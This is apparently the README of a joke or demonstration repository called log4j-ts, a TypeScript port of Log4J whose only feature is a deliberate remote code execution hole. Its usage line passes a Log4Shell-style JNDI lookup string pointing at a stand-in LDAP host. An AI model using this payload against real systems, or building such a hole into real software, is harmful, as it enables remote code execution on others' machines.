 # log4j-ts
This repository is a port of the Log4J library whose only feature is the RCE vulnerability

## Disclaimer
### Do not use this library for any serious purposes. It contains a RCE (Remote Code Execution) deliberately.

## Installation
```console
> yarn install
```

## Usage
```console
> npm start -- "${jndi:ldap(s)://example.com}"
```